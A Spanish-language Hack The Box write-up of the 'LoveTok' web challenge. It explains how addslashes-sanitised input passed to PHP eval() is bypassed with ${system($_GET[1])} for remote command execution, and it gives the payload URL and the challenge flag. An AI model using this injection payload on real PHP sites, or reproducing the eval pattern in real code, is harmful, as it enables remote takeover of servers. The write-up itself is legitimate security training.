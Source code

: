 ```yaml
---
title: LoveTok HTB
date: 2023-04-25
type: challenge
author: naibu3
---
```


#web #sanitization_bypass #php #addslashes_bypass #rce 

# LoveTok HTB

Es uno de los challenges de la sección de *web*.

## Reconocimiento

Al acceder a la dirección que nos proporcionan vemos una página bastante simple, que nos muestra una cuenta atrás y un botón para reiniciarla. Si revisamos [[wappalizer]], podremos ver que se está haciendo uso de la librería *moment.js*. Otra cosa que salta a la vista es que por url estamos pasando un parámetro `format=r`:

```url
http://161.35.36.167:32629/?format=r
```

Como no hay mucho más que hacer en la propia página pasamos a analizar los archivos del servidor. Encontramos un archivo `controllers/TimeController.php` en el que podemos ver que se asigna el valor de `format` a una variable `format`:

```php
<?php
 class TimeController
{
	public function index($router)
	{
		$format = isset($_GET['format']) ? $_GET['format'] : 'r';
		$time = new TimeModel($format);
		return $router->view('index', ['time' => $time->getTime()]);
	}
}
```

Además en otro archivo `models/TimeModel.php`, podemos ver que se aplica una sanitización con `addslashes()` a dicha variable `format`, para después utilizarla en una llamada a `eval()`:

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```

Podemos pensar que tenemos [[RCE]] simplemente con una inyección tal que así:

```php
eval('$time = date(" ") system("command") //", strtotime("'...
```

Sin embargo, `addslashes()` está añadiendo `\` para escapar `'`, `"`,`\` y el bit nulo. Por tanto, debemos utilizar otra característica de *php*, las *complex variables* (*variables complejas*). Esta característica consiste en acceder a un valor mediante `${valor}`, lo cuál no sólo evaluará el valor de las variables que contiene (igual que las comillas dobles `"`), sino que también evaluará el valor de retorno de las funciones.

El payload nos queda por ahora: `${system("comando")}`. Sin embargo, las comillas del argumento de `system()` también se escaparán, por lo que debemos *bypassearlas*. Una forma sería que leyeramos dicho argumento como un argumento de la propia url con `$_GET[i]`. La url con el *payload* quedaría:

```url
http://161.35.36.167:32629/?format=${system($_GET[1])}&1=command
```

Así ya podemos ejecutar comandos. Si revisamos la raíz con `ls`, veremos un archivo `flagxxxxx` (los últimos dígitos cambian aleatoriamente cada vez que reiniciamos la instancia). Si lo listamos con `cat`, obtendremos la flag (`HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}`).
